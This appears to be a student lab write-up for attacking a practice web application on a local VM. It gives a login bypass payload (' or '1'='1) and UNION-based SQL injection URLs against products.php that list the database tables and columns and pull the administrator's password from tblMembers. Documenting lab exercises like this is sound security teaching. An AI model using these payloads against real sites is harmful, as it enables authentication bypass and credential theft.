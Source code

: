 # Projeto
* Entrar na Vm
* Colocar o ip no browser

## Login com Administrador

   * Ir à pagina 'Terms & Conditions'
   * ScrollDown até encontrar o e-mail 'admin@integratingsolutions.net'
   * Ir à pagina do Login:
   
        e-mail: admin@integratingsolutions.net
        password: 'or '1'='1
![](images/login.png)
    
## SQL Injections

* Finding out the table that stores the users:

		'or EXISTS(SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME='users') AND '' ='
	The login goes through, which means that there is a table named 'users'
![](images/login.png)

* Finding out all table names from the DB:
		
		http://192.168.56.101/products.php?type=2%20union%20select%20null,null,table_name,null,null%20from%20information_schema.tables%20--
		
	We were able to understand that the products page was vunerable to blind SQL Injections. With that in mind, we used union select from `information_schema.tables`. With this information we only had to find out the sintax of the columns in the table. Easily found that table_name column was the third
	
![](images/unionfirst.png)

(...)

![](images/unionlast.png)

* Finding out the column names of a table:
	
		http://192.168.56.101/products.php?type=2%20union%20select%20null,null,column_name,null,null%20from%20information_schema.columns%20where%20table_name=%27tblMembers%27%20--
	
	After finding the table names, we can easly find out the columns of each table using the same type of SQL Injection. In this case we can find out the columns of the table `tblMembers`:
	
![](images/tblMembers.png)

* Finding out the password of the administrator account:

		http://192.168.56.101/products.php?type=2%20union%20select%20null,null,password,null,null%20from%20tblMembers%20where%20username=%22admin@integratingsolutions.net%22
		
	Again, using the same SQL Injection type, we got to the password of the admin `admin@integratingsolutions.net`:

![](images/adminpw.png)